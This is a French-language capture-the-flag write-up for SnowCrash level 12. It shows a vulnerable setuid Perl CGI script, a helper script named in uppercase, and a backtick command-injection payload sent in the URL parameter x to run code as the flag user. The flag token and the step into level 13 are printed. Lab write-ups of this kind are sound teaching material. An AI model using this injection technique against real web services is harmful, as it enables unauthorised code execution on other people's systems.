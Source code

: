 # Level 12

</br></br>

## check file level 12

```zsh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Étant donné que c'est un CGI, il est nécessaire de créer un script

</br></br>

## make CGI file

```zsh
level12@SnowCrash:~$ vim /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```

dans le pl script, le nom de fichier est changé en mascule.
donc, on doit créer le fichier en mascule et avec "backtick" et avec "systemcall" dans le code ou script,
on peut executer la commande

</br></br>

## execute

connect to

> http://192.168.56.101:4646/?x=`/tmp/GETFLAG`

```zsh
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13
Password:
level13@SnowCrash:~$
```
